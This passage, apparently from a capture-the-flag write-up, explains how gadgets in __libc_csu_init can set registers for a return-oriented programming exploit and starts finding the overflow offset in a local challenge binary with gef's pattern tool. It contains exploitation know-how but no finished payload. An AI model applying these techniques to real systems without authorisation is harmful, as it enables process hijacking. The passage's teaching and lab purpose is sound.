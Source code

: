 It is not that long, so we can get this in a minute or two completely, though there's no point in understanding th whole workflow of the function so I'm going to take a look  over the instructions which will be useful.
Now, as you see the following lines:-

```r
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
```

This seems interesting, the contents of `r13`, `r14` and `r15` are going in `edi`, `rsi` and `rdx` respectively. Remember, we had access to `r15` but not to `rdx` and the instruction at `__libc_csu_init + 64` can move the content of `r15` to `rdx`, that is the one we were looking for. But before start using these gadgets we need to understand what exactly is `__libc_csu_init` and it's usage.


---

### __libc_csu_init

The `__libc_csu_init` is found in every binary, the purpose of this function is for initialization of functions and variables such that our binary is ready to use. From the libc source code, we can see:-

```C
int __libc_csu_init(int argc, char **argv, char **envp)
{
    /*
     * Call all the __attribute__((constructor)) functions.
     * These symbols are generated by the linker.
     */
    size_t num_init = __init_array_end - __init_array_start; 
    for (size_t i = 0; i < num_init; i++) {
        __init_array_start[i](argc, argv, envp);
    }
}
```

In a nutshell, it calculates the difference between the `__init_array`'s start and end address which contains the functions, constructors, destructors, objects etc. which called at the time of initialization and hence, initialize them accordingly. I'm not covering much since the **journey of how main is called from a binary** would take it's own post, for now this is the knowledge we need.

---

Now, let's break down the process of creating an exploit and cover it one by one. Let's get started:-

### Finding offset to RIP

As usual, we need to know that exact how much bytes we need to give to the input in order to get the control of instruction pointer. Since we already used `gets`, we know that this program is vulnerable to buffer overflow, time to use `gdb-gef`'s `pattern` which will help us.

```r
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /tmp/ctf/pwn1/chall 
Welcome to the world of Pwning
I'd like to know the name of brave warrior
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
```